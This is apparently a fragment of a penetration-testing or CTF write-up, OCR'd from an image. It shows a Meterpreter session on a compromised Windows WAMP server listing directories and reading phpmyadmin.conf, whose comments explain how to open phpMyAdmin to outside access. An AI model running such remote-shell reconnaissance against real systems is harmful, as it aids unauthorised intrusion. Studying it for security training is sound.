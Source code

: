 ```
100666/rw-rw-rw-  4790     fil   2010-12-31 21:09:42 +0530  barimage.bmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:08 +0530  bin
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_off.bmp
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_on.bmp
040777/rwxrwxrwx  8192     dir   2021-10-28 20:00:09 +0530  lang
100666/rw-rw-rw-  15668    fil   2010-12-31 22:56:16 +0530  license.txt
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:11 +0530  logs
040777/rwxrwxrwx  4096     dir   2021-10-28 20:00:09 +0530  scripts
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tools
100666/rw-rw-rw-  182407   fil   2021-10-28 20:00:09 +0530  unins000.dat
100777/rwxrwxrwx  913246   fil   2021-10-28 20:00:04 +0530  unins000.exe
100777/rwxrwxrwx  209      fil   2021-10-28 20:00:09 +0530  uninstall_services.bat
100666/rw-rw-rw-  994      fil   2021-10-28 20:00:09 +0530  wampmanager.conf
100777/rwxrwxrwx  1169920  fil   2010-12-31 21:10:06 +0530  wampmanager.exe
100666/rw-rw-rw-  1147     fil   2021-10-28 20:00:09 +0530  wampmanager.ini
100666/rw-rw-rw-  12681    fil   2021-10-28 20:00:09 +0530  wampmanager.tpl
040777/rwxrwxrwx  4096     dir   2021-10-28 20:07:30 +0530  www

meterpreter > cd alias\\
meterpreter > ls
Listing: C:\wamp\alias
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1488  fil   2021-10-28 19:48:52 +0530  httpd-dav.conf
100666/rw-rw-rw-  471   fil   2021-10-28 19:48:58 +0530  phpmyadmin.conf
100666/rw-rw-rw-  441   fil   2021-10-28 20:00:09 +0530  sqlbuddy.conf
100666/rw-rw-rw-  439   fil   2021-10-28 20:00:09 +0530  webgrind.conf
```

```
meterpreter > cat phpmyadmin.conf 
Alias /phpmyadmin "c:/wamp/apps/phpmyadmin3.4.10.1/" 

# to give access to phpmyadmin from outside 
# replace the lines
#
#        Order Deny,Allow
#       Deny from all
#       Allow from 127.0.0.1
#
# by
#
#        Order Allow,Deny 
#   Allow from all
#

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow
        Deny from all
        Allow from 127.0.0.1
</Directory>
```
